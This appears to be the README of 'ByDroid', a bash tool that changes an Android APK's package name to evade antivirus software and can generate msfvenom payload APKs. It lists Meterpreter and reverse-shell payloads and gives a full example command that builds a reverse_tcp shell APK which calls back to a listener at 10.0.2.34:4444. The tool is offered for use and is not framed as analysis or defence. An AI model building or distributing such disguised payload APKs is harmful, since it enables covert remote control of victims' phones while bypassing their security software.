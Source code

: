 # ByDroid
A simple bash script for edit Android APK files and evade AVs changing the package

## Usage
```
bydroid.sh [OPTIONS] package [file]
OPTIONS:
  -h, --help          show help message
  -g, --generate      generate an apk with msfvenom (requires: -P, -l, -p)
  -P, --payload       set the payload for msfvenom (see below)
  -l, --lhost         set the lhost for msfvenom payload
  -p, --port          set the port for msfvenom payload
  -n, --name          change the app name (not implemented yet)
  -i, --icon          change the app icon (not implemented yet)
  -o, --output        select the output file
```

The `package` parameter means the new package for the app.

The `file` parameter is the input file to patch (ignored when use `-g`).

### Payloads
```
android/meterpreter/reverse_http
android/meterpreter/reverse_https
android/meterpreter/reverse_tcp
android/shell/reverse_http
android/shell/reverse_https
android/shell/reverse_tcp
```

## Dependencies
- msfvenom            (_only when use `-g`_)  https://github.com/rapid7/metasploit-framework
- apktool                                     https://ibotpeaches.github.io/Apktool/
- d2j-apk-sign                                http://repository-dex2jar.forge.cloudbees.com/snapshot/com/googlecode/d2j/dex-tools/2.1-SNAPSHOT/

_All of them included in Kali Linux_

## TODO
- [x] Function -n (change name)
- [ ] Function -i (change icon)
- [ ] List missing dependencies
- [ ] Prompt for bin location when not found
- [ ] Change d2j-apk-sign for jarsigner
- [ ] Resource files generation

## EXAMPLES

`bydroid.sh com.new.package app.apk`

Changes the package of `app.apk` to `com.new.package` and gives an output file `out.apk`

`bydroid.sh com.new.package app.apk -o edited.apk -n "New Name" -i ~/images/icon.png`

Changes the package to `com.new.package`, the name of the app to `New Name` and the icon with the selected image, and gives the output file `edited.apk`

`bydroid.sh com.new.package -g -P android/shell/reverse_tcp -l 10.0.2.34 -p 4444 -o payload.apk`

Generates a payload `android/shell/reverse_tcp` which connects to `10.0.2.34:4444` and gives the output file `payload.apk`


